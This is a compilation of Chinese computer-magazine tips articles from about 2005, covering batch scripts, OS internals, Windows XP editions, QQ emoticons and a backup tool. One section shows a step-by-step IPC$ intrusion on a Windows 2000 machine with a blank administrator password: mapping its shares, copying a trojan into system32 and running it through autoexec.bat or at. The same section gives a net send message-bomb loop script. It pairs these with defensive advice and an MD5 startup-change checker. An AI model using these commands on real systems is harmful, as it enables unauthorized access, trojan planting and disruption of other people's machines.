设定快捷键：软件安装完成后，首先要为其设定一个快捷键，以方便启动程序。打开 MakeNewFolder 的安装目录（默认在“C:\Program Files\MakeNewFolder”），右键单击“MakeNewFolder”程序，在右键菜单中选取“发送到→桌面快捷方式”。也可以从“开始→所有程序→MakeNewFolder”在打开的程序菜单中通过右键方式将程序发送到桌面快捷方式。然后在桌面上找到并打开“MakeNewFolder”的属性对话框，在快捷键一栏中定义快捷键（如设为“F7”），点下“确定”即可生效。

实例：在 C:\ 下新建文件夹 A，在 A 中新建文件夹 B 和 C

首先在“资源管理器”中打开 C:\，按下刚才设定的快捷键 F7。然后在弹出的“Make new folder”窗口的“Folder spec”文本框中输入“A<B|C>”（不含引号），接着点击“Create”（建立）或者“Create & Close”（建立

### 创建文件夹的格式规范

1. “<>”用来建立子文件夹，如“1<2>”就代表新建文件夹“1”并在其下建立子文件夹“2”。
2. 同级文件夹，如在文件夹“1”中生成“2”和“3”这两个同级的文件夹，则可使用“|”连接同级文件夹，如“1<2|3>”。
3. 最外层的文件夹不用加“<>”，“<>”可嵌套使用，如“1<2<4>|3>”就是指在文件夹“1”中新建子文件夹“2”和“3”，再在“2”中新建子文件夹“4”。

批处理也玩“黑吃黑”

自从小伙计写了几个精彩的脚本后，就始终有些飘飘然，觉得掌柜的也不过如此，江湖上传言他为顶尖高手原来也只是浪得虚名罢了。这不？小伙计大摇大摆地走进了掌柜的办公室，准备提出加薪要求。可是掌柜的在干什么呢？目不转睛地盯着他的19英寸液晶屏幕并间歇性地进入沉思。小伙计蹑手蹑脚地绕到了掌柜的背后，顿时被显示器上的内容镇住了——原来掌柜的是一个黑客组织成员。经过一番软磨硬泡，掌柜的终于同意传授他几招。

IPC木马之谜

IPC，你可能听过这个名词。前几年IPC漏洞曾经红极一时，从原先黑客们手工敲入命令行，到后来出现了能在扫描时同步植入木马的高效IPC扫描器。现在仍有不少人天天开着IPC扫描器在网上寻找“肉鸡”，但究竟IPC入侵是怎么回事呢？掌柜的拿小伙子的机器(IP:192.168.0.2，系统Windows 2000)做起了测试。

注意：以下代码仅对具有空口令管理员账户的系统有效(net use 命令的使用请参考本刊今年第9期的《连根拔起——共享的二次登录》)。

```
net use \\192.168.0.2\ipc$ "" /user:"administrator"
```

这行命令的大意是：以用户名 administrator 及空密码登录IP地址为192.168.0.2 的机器上的IPC共享，登录了这台机器的IPC共享后就相当于拿到了对它的管理访问权限，那些具有远程参数的命令就有用武之地了(比如本刊今年第10期的《DOS快餐店》中介绍的AT命令)。

```
net use z: \\192.168.0.2\c$
```

这行命令的大意是：登录IP为192.168.0.2 的机器上的共享资源c$, 并将这个共享映射为本地盘符Z:。

“咦？我明明没开共享啊！”小伙计惊呼。掌柜的头也不回便答道：“难道你不知道Windows的默认共享吗？”

什么是Windows的默认共享：在Windows 2000/XP等系统中，为了便于管理，默认将各盘符都设置了共享。共享名与盘符相同，但在最后加了一个“$”隐藏符号，这样在普通情况下就无法从“网上邻居”中浏览到这个共享资源。而一旦登录了IPC管理共享，就能够轻易添加对这些共享盘符的映射了。

现在小伙计的C盘已经被掌柜的映射为自己的Z盘了，而且访问权限是“完全控制”！也就是说通过对本地Z盘的操作，就能轻松控制远程主机上的C盘。“如果是黑客得到了这样的访问权限，那么我想，他现在应该会上传木马了。”掌柜的如是说。

```
copy d:\trojan.exe z:\winnt\system32
```

这行命令的大意是：将 d:\ 下的文件 trojan.exe (可能是黑客本地机器上的一个木马程序)复制到 z:\winnt\system32 目录(被入侵机器的远程目录)中。

经过这条 copy 命令，木马文件已经轻松上传到了小伙计的系统目录中。小伙计还有些不服：“就算你能把木马放进我的硬盘又怎样，只要我不执行它，你就拿我没辙。”“要运行这个程序，有N种方法。”掌柜的轻蔑地看了小伙子一眼，冷冷地答道。

### 1. 重启后运行：加入自启动文件

在本地新建一个文本文件并命名为 autoexec.bat，在其中加入一行命令“trojan.exe”(不含引号)，然后执行以下命令(假设刚才新建的位置在 d:\)：

```
copy d:\autoexec.bat z:\ /y
```

这行命令的大意是：用本地目录 d:\ 下的文件 autoexec.bat 覆盖远程目录 z:\ (即被入侵的机器的C盘根目录)下的同名文件，在启动系统时默认将自动执行 autoexec.bat 中的命令，那么当小伙计重启系统后，木马就偷偷执行了……

### 2. 现在就运行：远程AT命令

```
net time \\192.168.0.2
```

首先用 net time 命令获取远程计算机的系统时间，命令返回结果显示小伙计的系统时间为14:55，现在可以用AT命令了(AT命令的使用请参考上期《DOS快餐店》)。

```
at \\192.168.0.2 15:00 trojan.exe
```

这样到了15:00时，远程计算机上就自动执行了 trojan.exe。

> 小提示：在以上的命令中使用“trojan.exe”而非“c:\winnt\system32\trojan.exe”是由于该文件在系统目录(即 system32)下。如果没有全路径，则系统会首先从系统目录下寻找符合名称要求的文件。

如何防范IPC攻击

- 1. 安装网络防火墙，并为Administrator用户设置一个较复杂的超过8位的密码。
- 2. 使用本刊今年第9期中的《用好Windows权限之剑——严防非法入侵》中介绍的方法给CMD设置权限。

疯狂的信使消息炸弹

新装完系统之后，很多用户都会报怨为什么会弹出信使服务的窗口(在CFan的论坛上就经常会有读者提这个问题)。信使服务原来是微软设计用来帮助用户及时传递重要消息的工具，可是现在却被很多人用来传递广告，在命令行提示符下输入“net send IP地址 要发送的消息”命令即可。想不想当一回“黑客”，来和朋友开个小玩笑呢？将下面的脚本保存为BAT文件(如：sendmsg.bat)：

```
@echo 正在攻击中
:start
@net send %1 %2
@if errorlevel 1 goto over
goto start
:over
@echo 发送失败
```

这样，只需执行“sendmsg.bat IP地址 要发送的消息”，就会自动向指定的IP循环发送消息，直到对方因窗口过多而被迫重启。

这段脚本的大意是：脚本开始时显示“正在攻击中”利用 net send 命令将第二个参数所包含的内容作为消息发送到第一个参数所指定的计算机上。如果 net send 命令执行不成功(比如远程主机不存在，或者未打开这项服务)，则脚本会跳转到 over 标号处，显示“发送失败”并退出脚本。而如果发送成功的话，则跳转到 start 标号，start 标号在 net send 命令前，所以发送成功之后就会又重新发送，形成了循环发送。

如何防范信使消息炸弹

- 1. 安装具有过滤信使消息的防火墙。
- 2. 运行 services.msc，在弹出的服务窗口右侧列表中双击 Messenger 服务，点击“停止”按钮并将“启动类型”设置为“禁用”。

启动项被更改时，请通知我

小伙计还在检查刚才被掌柜的入侵的自启动项：“黑客都这样神不知鬼不觉地入侵，那我该如何防御呢？”掌柜的不慌不忙地拿出了收藏的利器——MD5检测工具(以下的脚本中需要用到此工具，可从 http://www.newhua.com/cfan/200511/md5.zip 下载)。

什么是 MD5：MD5 的全称是 Message-Digest Algorithm 5(信息-摘要算法)，它能将一串随机长度的信息(当然也包括文件)通过其加密函数算法生成一个惟一的 128 位值，相同信息的 MD5 值也是相同的，反之，文件即使略有改动，其 MD5 值也会产生变化。因此，只需比较文件的 MD5 值，就能知道文件是否经过改动了。

### 1. 给自启动项生成MD5“身份证”

将以下脚本保存为 run.bat，和刚才下载的 md5.exe (从 md5.zip 中解压缩得到)放在同一目录下。每次执行 run.bat 都将生成 autoexec.bat 文件的 MD5 文件 ate.md5 和注册表自启动项的 MD5 文件 run.md5 (autoexec.bat 文件的路径可根据实际系统所在盘符进行修改，一般为默认的 c:\)。

```
@echo off
md5.exe c:\autoexec.bat > c:\ate.md5
regedit.exe /e c:\run.reg HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
md5.exe c:\run.reg > c:\run.md5
```

脚本讲解：用 md5.exe 生成 c:\autoexec.bat 文件的 MD5 值，并写入 c:\ate.md5 中。导出注册表分支[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]为 c:\run.reg，再以 md5.exe 计算出该文件的 MD5 值并写入 c:\run.md5 中。

### 2. 查验自启动项的MD5“身份证”

将以下脚本保存为 check.bat，和 md5.exe 放在同一目录下。

```
@echo off
md5.exe c:\autoexec.bat > c:\ate2.md5
regedit.exe /e c:\run.reg HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
md5.exe c:\run.reg > c:\run2.md5
fc c:\ate.md5 c:\ate2.md5 > nul
if errorlevel 1 @echo Msgbox "autoexec.bat 文件经过改动！",vbInformation,"黑客警报" > c:\warn.vbs
if exist c:\warn.vbs c:\warn.vbs
del c:\warn.vbs
fc c:\run.md5 c:\run2.md5 > nul
if errorlevel 1 @echo Msgbox "注册表自启动项经过改动！",vbInformation,"黑客警报" > c:\warn.vbs
if exist c:\warn.vbs c:\warn.vbs
del c:\warn.vbs
```

脚本讲解：用 md5.exe 生成 c:\autoexec.bat 文件的 MD5 值，并写入 c:\ate2.md5 中。导出注册表分支[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]为 c:\run.reg，再以 md5.exe 计算出该文件的 MD5 值并写入 c:\run2.md5 中。然后用 fc 命令比较 c:\ate.md5 (以前的 autorun.bat 的 MD5 文件)和 c:\ate2.md5 (现在的 autorun.bat 的 MD5 文件)。如果发现 MD5 值发生了变化(即两个 MD5 文件不一致)，下方的“if errorlevel 1”语句就会执行其右侧的命令 @echo 将其右侧的文字写入文件 c:\warn.vbs 中，如果写入成功(文件存在)就执行。再用 fc 命令比较 c:\run.md5 c:\run2.md5，如果发现 MD5 变化，即文件改动就将“Msgbox "注册表自启动项经过改动！",vbInformation,"黑客警报"”写入到文件 c:\warn.vbs 中，写入成功就执行。这行 VBS 脚本的功能是弹出一个对话框(见图)，并显示指定的文字。在弹出框被关闭后，就删除这个 VBS 文件。



* fc 命令的详细使用方法将在今后的《DOS快餐店》中进行讲解。

脚本使用：将 check.bat 加入注册表自启动项中(也可是其他启动方式)；双击 run.bat 进行 MD5 文件的初始化(以后每次进行合法的自启动项修改时，都要重新运行这个脚本一次)，重新启动后即开始检查。

除去眼中钉：停用顽固闪存盘

USB 设备的热插拔特性使我们可以在接入并启用新设备时无需重启，可是当设备用完想取下来时，麻烦就来了：必须点击屏幕右下角系统托盘中的图标选择停用该设备，然后才能安全地移除它。特别是闪存盘，如果没有遵循这个步骤而直接取下的话，很容易导致数据丢失乃至闪存盘损坏。而更让人头痛的是，经常会遇到点击“停止”却没有反应的情况，这时到底是取下闪存盘好、还是不取下的好？为大家带来两招，摆脱“拔与不拔”的两难境地。

## 第一招：金蝉脱壳

大家可能会奇怪，为什么叫金蝉脱壳呢？其实系统中的设备与 Windows 中的文件一样，在被占用时是无法进行删除的。如果能让设备从占用它的进程中脱身，就可以正常停用该设备了。通过测试，我们找出了一种与删除顽固文件类似的方法。

第一步：按下“Ctrl + Shift + ESC”组合键打开“任务管理器”，在“进程”选项卡中选中并中止 explorer.exe 进程。

第二步：选择菜单“文件→新建任务”，在弹出框中输入 explorer.exe 重建该进程。

第三步：按照原来的方法，在系统托盘中停用 USB 设备，最后安全取出！

如果金蝉脱壳都无法除掉你的“眼中钉”，那么只有试试第二招了。

## 第二招：暗渡陈仓

在 Windows 这样的图形化界面中无法解决的问题，我们就有必要试一试在黑暗的命令行状态下加以解决了。

首先下载 http://www.newhua.com/cfan/200511/unplug.zip，解压缩后运行“CMD”命令打开命令行提示符窗口，然后使用 dir 命令进入 unplug.exe 文件所在目录。此处以停止 H 盘（假设 H 盘为闪存盘所在盘符）为例，输入 “unplug H:”（不含引号）命令即可。当然，更高效的方式是做一个批处理来搞定这一切（在脚本中 cd 命令后的参数 “d:\unplug” 请修改为 unplug.exe 所在目录，“h:” 请修改为闪存盘占用的盘符），将下面的脚本保存为 usb.bat，在需要时双击即可，这样平时就不用到系统托盘去停用闪存盘了。聪明的你如果再为它创建一个快捷方式，指定一个热键，就能一键卸载啦。

```
@echo off
cd d:\unplug
unplug h:
```

(四川 逍遥小小)

期号/文章:2005年第6期《DOS快餐店（三）》

读者 PSMM：这期的《DOS 快餐店》教会了我使用 COPY 命令，文章中给出的批处理脚本让我大开眼界，没想到批处理还能干这些。我平时经常会下载各种文件，比如 RAR 格式的软件包、RM 格式的电影等，在用 FlashGet 下载时，懒得选择保存位置，最后总是各种类型的文件都堆在下载文件夹中。经过一番苦苦的搜索，我终于找到了一个能够自动整理文件，按其类型自动分类汇总到相应的文件夹中的批处理脚本，以下是代码节选（完整文件下载地址：http://www.newhua.com/cfan/200511/filez.rar）:

让批处理帮你整理下载文件

```
echo off
cls
:EXIST
echo Searching Files....
if exist *.rar goto moverar
if exist *.exe goto moveexe
if exist *.zip goto movezip
if exist *.swf goto moveswf
if exist *.msi goto movemsi
if exist *.mp3 goto movemp3
goto END
:moverar
echo Find WinRAR Files!
mkdir "All WinRAR Files\"%date%
>tmp.tmp
dir *.rar /b>"All WinRAR Files"\varlog.tmp
echo Moveing...
move *.rar "All WinRAR Files\"%date%
>tmp.tmp
dir "All WinRAR Files\"%date%"/b>"All WinRAR Files"\varmovedlog.tmp
fc "All WinRAR Files"\varlog.tmp "All WinRAR Files"\varmovedlog.tmp>>"All WinRAR Files"\"Lost WinRAR Files.txt"
del "All WinRAR Files"\varlog.tmp
del "All WinRAR Files"\varmovedlog.tmp
del tmp.tmp
tree /f "All WinRAR Files">"WinRAR Index.txt"
goto EXIST
```

使用方法：将此批处理文件放入下载文件夹中，直接执行即可。

这段代码能够将文件按照其类型存入对应名称（如 RAR 格式对应的是 “All WinRAR Files” 文件夹）文件夹下以当前日期命名的子文件夹中，并且在下载文件夹中生成一个树状结构的文件清单。

来！让我们一起偷窥操作系统的隐私（下）

操作系统怎么“瓜分”我的存储

操作系统在进行存储器管理工作时主要实现两个目的：①保证每个进程在运行时都有足够的存储器空间供使用，进程之间不能在内存空间占用上发生冲突；②不同类型的存储器(如 RAM、虚拟内存、Cache 等)必须合理调度以保证每个进程都能最有效地运行(见图1)。



1. 没有规矩不成方圆：内存区块

第一个任务要求操作系统为各种软件及各个单独的应用程序设立内存分界线。举例来说，假定一个系统有 1MB(约 1000KB) 的 RAM，在启动时将操作系统文件装入内存的过程中，操作系统首先从可用内存的最顶端最大限度预留出操作系统自身需要的内存空间，此处假设操作系统需要 300KB 内存才能运行。接着操作系统在内存空间的底部开始填入控制计算机硬件子系统所用到的各种驱动程序，假设此操作系统中驱动程序要占用 200KB 内存。这样一来，在操作系统完全装入内存后，还有 500KB 内存空间供应用进程使用。为应用进程分配内存时，是以操作系统定义的区块大小为单位的。如果定义的区块大小为 2KB，那么分配给每个进程的内存必然是一块大小为 2KB 倍数的内存区域。应用程序的进程就这样被装入这些以连续区块组成的内存区域中，而这些区块的头和尾的分界线仅仅占用 4 或 8 个字节。设置固定的区块大小及其分界线有助于确保应用进程不会因为几个字节的计算错误而导致内存空间的冲突。这样一来，就进入了我们接下来要讨论的问题：当剩余的内存（本例中还有 500KB）被应用程序进程填满后应该怎么办？

2. 房子小了住不下：虚拟内存

大多数的计算机都支持在原有基础上扩充内存容量。比如你可以在原 128MB 的机器上再插一根 128MB 内存，就扩充到了 256MB。这样做当然没问题，但你必须为此付出更多金钱。同时这样一味扩充物理内存（即 RAM）显然忽略了一个基本事实：大部分应用进程放在内存中的数据可能从来都不会用到，而处理器（CPU）同一时间只能访问内存的一个位置，所以大量 RAM 空间多半时间并不在使用中。因为磁盘空间相对 RAM 而言要便宜，那么将 RAM 中的信息转移到硬盘中可以大大扩展可用的内存空间，同时省去了购置 RAM 所需的资金，这种技术就是所谓的“虚拟内存管理”。磁盘存储器只是操作系统需要管理的存储器的一种，同时也是最慢的一种，那么计算机所用的存储器分为哪些呢？

3. 家族成员齐亮相：存储器种类

- 以下存储器分类以速度排序，由快至慢。
- ① Cache（高速缓冲存储器）：这种存储器与 CPU 的连接最紧密，因此数据存取速度最快，但相对容量较小。Cache 控制器预测 CPU 下一次运算将用到的数据块，并把它们从主存储器中取出放入 Cache，从而提高系统性能。
- ② 主存储器：这种存储器就是你在购买计算机时看见的以 MB 为单位的 RAM（物理内存）。
- ③ 辅助存储器：这种存储器通常是某种旋转式磁存储器（包括服务器上常用的磁带机，和我们电脑中最常见的硬盘），用来保存应用程序及数据，以备用户调用，在操作系统的控制下也可将辅助存储器当成虚拟内存来使用。

操作系统必须均衡地满足不同进程对各存储器的需求，依照进程的执行进度在可用存储器之间以块（也称页面）为单位移动数据。这样，进程已经执行过的代码或者暂时不用的数据就可以放在速度相对较慢的虚拟内存中，而将要执行的代码及即将调用的数据则会移动到较快的 RAM 或者 Cache 中。

操作系统怎么和硬件打交道

1. 系统与硬件的翻译官：驱动程序

操作系统并不直接和硬件打交道，而是通过一种称为设备“驱动程序”（在英语中称为“Driver”）的特殊程序来控制硬件。驱动程序的主要功能是：完成基于电信号的硬件子系统与基于更高级编程语言的操作系统及应用程序之间的数据转换。就好像翻译官一样，将电信号翻译成操作系统能“听”懂的程序变量，而将程序变量转换为硬件设备能够“听”懂的电信号。驱动程序控制的硬件设备千差万别，不同驱动程序的功能差别也很大。但一般而言，当需要使用硬件设备的时候才运行相应的驱动程序，除此之外跟普操作系统往往分派给驱动程序进程较高的优先级，这样硬件资源可以尽快被释放以供其他进程使用。之所以将驱动程序与操作系统分离设计，有一部分原因在于驱动程序可以自由添加新的功能，而无须对操作系统自身进行修改、重新编译和再发布。新驱动程序的开发往往由硬件设备的生产厂家负责，操作系统厂商只需要提供相应的驱动接口标准即可，整个系统的输入输出就能被实现得相当完善。

## 2.回来接着干:队列及缓冲机制

管理输入输出很大程度上是对队列和缓冲区的管理，尤其对于能够从硬件设备接收数据流的存储设备而言，比如键盘和串行接口。将这些数据保存并以CPU能够接受的速度传递给CPU。特别是有若干进程同时运行占据CPU时间的时候，这个功能更显得重要。当正从输入设备获取信息的进程被挂起，操作系统继续从设备接收输入信息并存入缓冲区，而不是直接发送到CPU。直到该进程被再次激活，操作系统才指示缓冲区开始向CPU发送数据。这个方法使得在CPU没有时间及时处理设备的输入时，键盘和调制解调器仍可以保持正常工作。

管理计算机系统的所有资源是操作系统功能的一个重要组成部分。对实时操作系统来说，更是要兼顾所有的功能。其他类型的操作系统则主要提供给应用程序和用户一个相对简单而统一的硬件调用环境。

## 操作系统的“接头暗号”

### 1.与应用程序交流:应用程序接口

应用程序接口就如同驱动程序能够向应用程序提供一个无需了解硬件操作细节就可以使用硬件设备的环境一样，应用程序编程接口（Application Programming Interfaces，简称APIs）让程序开发者不必直接关心CPU的运作就能使用计算机和操作系统的各种功能。让我们通过一个在硬盘创建一个文件来放置数据的例子来看看应用界面的重要性。

一个编写科学仪器数据纪录程序的程序想允许科学人员对创建的文件进行命名。操作系统会提供一个叫做MakeFile的API函数来创建文件。程序员编写程序的时候会用到类似这样的语句：MakeFile [1，%Name，2]。

在这个例子中，这条指令告诉操作系统生成一个可被随机访问的文件，文件地址是1，文件名将由用户输入（%Name），而文件的大小由来源文件2中的数据多少决定。现在我们来看看操作系统如何将这个指令付诸行动。

第一步：操作系统首先需要发出询问，一来到硬盘中第一个可用空间的地址。

第二步：得到设备的回应后，操作系统在文件系统中创建一条新纪录，用来记录文件的起止位置、文件名、文件类型、文件是否存档、用户对文件的读写权限和文件创建的日期时间。

第三步：操作系统在文件头部写下标识文件的信息，并设立好访问权限控制等应用相关的信息。

在这些信息当中，发给硬盘的请求和文件始末的指针格式依硬盘厂家和型号而定。

由于程序员在编写程序时使用API来访问磁盘存储器，他并不用关心最终运行这个程序的用户所使用的硬盘和磁带等设备支持何种指令代码、数据类型和响应代码。处理硬件细节的是安装了与硬件设备对应的驱动程序的操作系统，因而程序员需要为API编写指令，剩下的工作就交给操作系统来完成了。近年来API标准成为计算机行业中竞争最为激烈的领域，各大公司意识到，必须让更多的开发人员使用其API标准进行编程以便最终控制这部分市场并从中获利。因而很多公司乐于向公众免费提供浏览器、阅读器等应用软件，因为他们知道，消费者一旦对这些软件产生了使用依赖，那么其他应用程序厂商为了满足消费者的需求，当然会愿意支付版税来获得与这些软件的兼容。

### 2.与用户交流:用户界面

正如API为应用程序使用计算机资源提供了统一的方法一样，用户界面（User Interface，简称UI）作用于用户和计算机之间（见图2）。在过去的十年中，用户界面的发展主要集中在图形用户界面（Graphical User Interface，简称GUI）领域。Apple公司的Macintosh、Microsoft公司的Windows，在其发布时都吸引了不少的眼球，并成功占据了大部分市场。流行的开放源码操作系统Linux也支持图形用户界面。

还有一些其他操作系统的用户界面，有图形化的，也有非图形化的。比如Unix，提供的是比普通操作系统更灵活更强大的称为Shells的文本界面。著名的Korn Shell和C Shell作为非常重要的工具库，都是基于文本的界面，主要的目标是让用户更容易地定制操作系统功能。还有一些图形界面，比如X-Windows和Gnome简直能让Unix及Linux用户感觉身处Windows和Macintosh平台下。

有一点必须记得：在以上所有的例子当中，用户界面是在操作系统基础之上的一个程序或程序集合。在Windows和Macintosh等不同机制的操作系统中都是如此。操作系统的核心功能和计算机系统的管理才是操作系统的内核，而像用户界面这类的显示功能部分则是单独分离的，但又与操作系统的内核部分紧密相连。各种操作系统的内核部分与用户界面、工具库，其他软件之间的连接方式都不尽相同，这也是今天各种操作系统五花八门的一个原因，并且在未来各种连接方式更会层出不穷。



## 未来的操作系统会怎样

依照开放源码协议开发和发布的Linux操作系统，很可能对传统的操作系统产生重大的影响。大多数操作系统、驱动程序和工具库是由商业组织编写的，他们发布的可执行软件不包含源代码，因此无法用于学习也不能进行改动。开放源码的规则要求源代码资料可以供使用者学习，也可以对代码进行改动并在其基础上二次开发，但开发成果必须仍按照开放协议进行发布。互联网的持续发展和有别于传统标准的台式机、笔记本电脑的新型电脑的出现，意味着操作系统也将同时发生改变。但是硬件管理和界面这样的核心功能仍然会继续存在，并且会更加先进。

> （原著 Curt Franklin 译著 高寒）

## Windows XP 你到底有几件“马夹”

### 最“家用”的版本:HOME Edition

HOME（家庭版）是微软为满足普通家用需要而推出的缩水版本，相对于Professional（专业版，以下简称为“PRO”）去除了一些普通用户不太接触的高级功能，所以售价也比PRO版低了许多，去除的功能主要包括：没有“组策略编辑器”、TCP并发连接数默认是5（PRO版中是10）、无法加入活动目录、不包含IIS 5.1、只能使用“简单文件共享”，另外在加密、备份、权限设置上也存在不同程度的限制。由于文件共享和集成管理等功能的缩水，所以决定了该版本不适合公司或需要对系统进行较高级的设置的用户。

### 火速链接

- ★HOME版本默认的TCP连接数可以修改，请参看本刊《正解！XP SP2连接上限官方修改法》。
- ★使用HOME版的朋友如果想自己搭建Web服务器，请参考本刊《5分钟搭建Web服务器和论坛》

### 专家的选择:Professional Edition

Windows XP系列中最普遍、使用最多的版本。在安全性和灵活性上较HOME版更胜一筹，可以设置的项目更多也更细致。文件共享、活动目录都是公司或其他局域网环境中经常使用的功能，推荐办公一族和对设置要求较高的用户使用。

### 让电脑更像家电:Media Center

Media Center Edition（媒体中心，最新版本为2005，以下简称MCE）是一个彻彻底底的娱乐平台，界面精致程度超出以往任何版本的Windows。如果你拥有符合其苛刻要求的高端硬件，就能通过它将自己的电脑变成一台彻头彻尾的“家电”。但比较奇怪的是，这个版本只和PC一起捆绑销售，也就是说即使你拥有符合其要求的硬件，也无法买到它。微软对此的解释是为了保持硬件与MCE的绝对兼容。虽然界面看起来与以前大相径庭，但其基础核心仍是XP，程序和游戏仍能在MCE上很好地运行，在屏幕右方的那个界面是MCE的精髓所在，使用其提供的整合界面，可以轻而易举地实现音、视频文件播放、照片浏览和管理、收看及录制电视节目等功能。而这些功能以往必须通过调用好几个应用程序并需要进行繁琐的设置，或者是若干个传统家电产品才能够实现。这一切都很激动人心，但同时也必须为之购入高价的顶级硬件。

由于反垄断的官司，微软不得不推出了剔除了Media Player的版本——Reduced Media Edition（简化媒体版）。媒体回放、媒体传输、创建或编辑个人视频、媒体的内容保护、Windows Media的音频重放、由第三方软件或网站媒体制作的视频播放等功能在没有其他媒体播放软件工具时是无法使用的。市场对该版本XP的兴趣不大，甚至有欧洲的电脑经销商拒绝销售该版本的XP。

### 没有媒体播放器:Reduced Media Edition

### 低价的简化版:Starter Edition

微软在马来西亚、印度尼西亚和泰国推出的低价简化版XP——Windows XP Starter Edition，这是微软为抑制Linux的发展，并同时打击盗版的策略产品（据称现在已经有了面向中国用户的中文版问世）。之所以称其为“Starter”，是因为这个版本的XP只提供了最基本的功能：Windows Messenger、Windows Media Player、网络连接等，桌面分辨率最高仅支持800x600，而且只能同时执行3个程序，单程序开启窗口也被限制为3个。比较常用的诸如文件共享、多用户功能也不提供……

> （北方的狼）

## QQ动态表情自己做

自从QQ可以发送自定义表情之后，好友之间的聊天已经变得越来越有趣，那么你是如何得到表情的呢？

### 1.得到QQ表情的三大方法

- ①在聊天中获得：好友传过来的表情，右击后，选择“添加到QQ表情”即可；
- ②浏览网页时获得：在网站上看到想添加到表情中的动画，只要右后，选择“添加到QQ表情”即可；
- ③直接导入表情：打开聊天窗口，点击“选择表情→添加自定义表情”，打开“表情管理”窗口，然后选择“导入”或“添加”即可。

小提示
在“表情管理”窗口中，通过“上传到QQ网络硬盘”按钮，可以上传表情。

### 2.简简单单让静态图片动起来

现在的QQ表情中有很多是静止图片，但经过Photoshop和ImageReady的处理，立刻就能让它转静为动。下面就来看看实现方法吧。

第一步：打开任意QQ好友聊天窗口（聊天模式），发送表情，然后右击该表情，选择“另存为”，将表情导出为图片，保存至文件夹下。

第二步：进入Photoshop（本文以7.0为例说明，其他版本操作基本相同），将表情复制为三层，然后用“自由变换”（Crtl + T）分别对第一层、第二层进行调整，比如将Layer 1由下至上将图片压扁（见图1）；同样方法，将Layer 2由上至下将图片压扁。



第三步：点击Photoshop工具面板上的“跳至ImageReady”（见图2）。




第四步：进入ImageReady后，点击在Animation（动画）面板左上角的三角按钮，选择Make Frames From Layers（从图层建立帧）（见图3）。

第五步：在Animation面板上，选中第一帧，点击其右下角的黑色三角，选择帧延迟时间，一般使用0.1 seconds（0.1秒）即可。同样方法将第二及第三帧的延迟也设置为0.1 seconds，然后再将左下角的Once（一次）改为Forever（永远）（见图4）。

第六步：点击Animation面板上的三角形Play/Stop Animation（播放/停止动画）按钮可以预览动画，在确认无误之后，选择菜单中的File→Save Optimized As（文件→将优化结果存储为），保存为GIF格式即可。

### 3.版权信息即加即显

DIY的表情，自然要加上自己的LOGO，这样才更个性、让更多人知道你。下面以刚刚制作好的表情为例，告诉大家如何在动画中添加表情信息。

用ImageReady打开刚刚制作好的GIF动画，在工具面板中选择“T”工具，直接点击图片，输入要添加的文字（见图5），按下播放键，你的LOGO是不是已经“打”上去了？如果仅仅想简单地显示LOGO，那么直接保存即可。但如果是想让LOGO动起来，那么各位还要继续往下看。



### 4.让LOGO动起来

仅仅是静态的LOGO，当然不能满足要求，要做自然就做动态。在动手前，有必要了解一下ImageReady中图层和帧的关系。

由刚才的例子中可以看到，选中不同的帧，可视图层也不同，即第一帧的可视层为文字层（也就是刚刚的LOGO）及Layer 1层（见图6），其他层同理。那么我们只要修改每帧的可视层就可完成对动画的修改调整了。



第一步：在ImageReady中，点击工具栏中的Jump to Photoshop，切换回Photoshop。由于Photoshop与ImageReady的良好互通性，刚刚修改的图片在Photoshop中也处于待编辑的状态。

第二步：复制两次文字层，然后将三个文字层的名称改为CFan小、CFan原、CFan大，并使用“自由变换”（Crtl + T）功能将该层中的文字缩小、保持原样、放大（见图7）。



第三步：回到ImageReady中，第一帧的可见层为Layer 1及“CFan大”，第二帧的可见层为Layer 2及“CFan原”，第三帧的可见层为Layer 3及“CFan小”（见图8）。



第四步：现在，预览一下，确认无误后，保存即可。
最后将表情导入QQ，完成我们的表情DIY。

Just Do It
用Photoshop和ImageReady将几个动画表情合成一个动画表情。
关键提示：在ImageReady中打开动画表情后，会自动新建图层，然后再切换至Photoshop中，将两个表情中的图层提取，然后编辑处理即可。

(北京 神农)

## 我的QQ头像不一样

在QQ2004II Beta3中增加的最新功能就是可以自定义头像，我们可以把喜欢的图片或者自己的照片当作头像。不过可不是所有人都能使用这个功能：要么你是QQ会员，要么你是三钻贵族（蓝钻、黄钻或红钻）；如果你前两个都无法满足，那么QQ等级一定要超过16级，这样才可以使用自定义头像功能。
点击QQ主窗口的“菜单”按钮，选择“个人设置”，在“个人资料”下，点击“更改→本地浏览”按钮，选择好自定义头像即可。另外要提醒大家，仅有QQ2004II Beta3这个版本才能看到自定义头像（见图），其他版本只能看到普通的企鹅头像。

(辽宁 二手三好街)

## 比精灵更强悍 一键备份/恢复多分区

使用 Ghost 恢复系统已经被许多朋友作为系统起死回生的“神丹妙药”，再结合 IBM 的 F11 一键恢复工具可以说是完美搭配。下面要介绍给大家一款这样的工具——OneKey，它可以安全快速地备份和恢复硬盘上的任意分区，而且支持 FAT、FAT32 及 NTFS 分区格式。

注：本文介绍的方法会对硬盘分区结构修改，建议做好数据备份后，再进行测试。

- **OneKey 小档案**
软件版本:2.0 光盘版
软件大小:6022KB
软件性质:免费软件
适用平台:DOS
下载地址:http://www.newhua.com/cfan/200501/onekey.rar

### 菜鸟上手篇

先来看看如何使用 OneKey 进行单分区备份和还原，这也是大家最经常用到的功能。

第一步：把下载的 onekey.rar 解压，得到名为 OneKey.ISO 的 ISO 光盘镜像文件，使用 Nero 等刻录软件将该镜像文件刻录到光盘上。

第二步：用刻录后的光盘启动系统，可以看到 OneKey 安装界面。首先，将一键恢复安装到系统中，并且划分出一个专用的备份分区，这些工作都是由 OneKey 自动完成的。我们要做的就是在“备份分区大小为”后面输入要备份分区的大小数值，该值一般应设置为要备份分区已用空间的三分之二。如果要备份多个分区则需要更大的空间，一般至少需要 2GB，这里输入数值“2048”（2GB），然后单击“安装”按钮（见图1）。



> **小提示**
OneKey 不能使用在双硬盘系统中，同时，系统中也不能存在卷标为“ZHU_RESTROE”的分区，因为该软件自动划分的备份分区卷标就是“ZHU_RESTROE”。

